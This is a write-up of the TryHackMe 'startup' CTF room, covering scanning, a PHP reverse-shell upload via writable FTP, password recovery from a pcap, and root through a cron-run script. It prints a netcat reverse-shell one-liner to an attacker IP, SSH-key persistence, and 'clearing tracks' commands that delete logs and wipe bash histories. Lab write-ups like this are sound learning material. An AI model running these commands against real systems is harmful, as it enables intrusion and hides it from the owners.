 ```yaml
---
title: "THM:startup"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/startup"
categories: [CTF, THM]
tags: [ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,ssh2john,linpeas,privesc,cron]
---
```

# THM:startup

URL: [https://tryhackme.com/room/startup](https://tryhackme.com/room/startup) [Easy]

## Reconnaissance

Description of the room:

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Anonymous FTP has an Among Us meme, and a text file telling people to stop leaving memes on that file share. The `ftp` folder is writable. That could be something?

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found:

```python
/files                (Status: 301) [Size: 312] [--> http://10.10.159.60/files/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Nothing interesting found.


Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Since the anonymous FTP folder `/ftp/` is writeable, you can do a `put revshell.php` into that folder, and then execute that reverse shell from the `/files/revshell.php` URL in the browser.

That will get you a primitive shell running as the `www-data` user.

### Privilege Escalation (power user)

First, to privesc into the `lennie` account (you can see their home folder under `/home/`), look in the `incidents` folder for a pcap file. If you download that file and view it with Wireshark, you can see there was a password attempt. It was a bad password attempt for `www-data`, but that IS the password for `lennie`.

Meaning, you can now do `su - lennie` with that newly found password. You are now logged-in as `lennie`.

### Privilege Escalation (root)

The Hint from TryHackMe for root privesc is "scripts". Well, in Lennie's home folder there is a `~/scripts/` folder. In there is a bash script that calls `/etc/print.sh`. In short, it looks like something external kicks off that script, but we don't know what it is.

So, we modify `/etc/print.sh` to reverse shell back to our workstation by adding something like:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```

and then listen on your workstation with something like this:

```bash
nc -lvnp 8080
```

After a minute or so, you've got a prompt, and it's a root prompt!


## Maintaining Access

To not have to deal with half-broken shells, I added my SSH public key to `/home/lennie/.ssh/authorized_keys` and set the permissions on that file to `chmod 600 ./authorized_keys`. That way, instead of working out of reverse shells with bad rendering, I could now just:

```bash
ssh lennie@x.x.x.x
```

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/lennie/.bash_history`

## Summary

Completed: [2023-07-20 21:01:11]